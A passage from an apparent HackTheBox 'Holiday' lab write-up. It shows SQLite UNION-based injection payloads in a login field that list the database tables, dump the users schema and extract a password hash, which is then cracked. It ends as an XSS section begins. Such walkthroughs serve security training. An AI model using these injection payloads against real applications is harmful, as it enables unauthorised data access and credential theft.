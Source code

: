 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:21:15.png)

So, now I can extract data from it.

This [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) helps me a lot to make the queries

```
username=0x4rt3mis")) UNION SELECT 1,tbl_name,3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0-- -&password=admin
```

And we get the table names changing the limit and offset

`bookings,users,notes,sessions,`

Which I think is more importat is the users, so let's extract it

```
username=0x4rt3mis")) UNION SELECT 1,sql,3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -&password=admin
CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT,username TEXT,password TEXT,active TINYINT(1))
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:34:30.png)

So we have the columns USERNAME and PASSWORD, let's extract them

```
username=0x4rt3mis")) UNION SELECT 1,username,3,4 FROM users-- -&password=admin
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:35:31.png)

And we get a hash

```
username=0x4rt3mis")) UNION SELECT 1,password,3,4 FROM users-- -&password=admin
fdc8cd4cff2c19e0d1022e78481ddf36
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:36:06.png)

And we crack it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:36:44.png)

nevergonnagiveyouup. So we can log on the app

### XSS

We login

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:41:22.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-25-HackTheBox-Holiday/2021-09-25-HackTheBox-Holiday%2008:41:32.png)
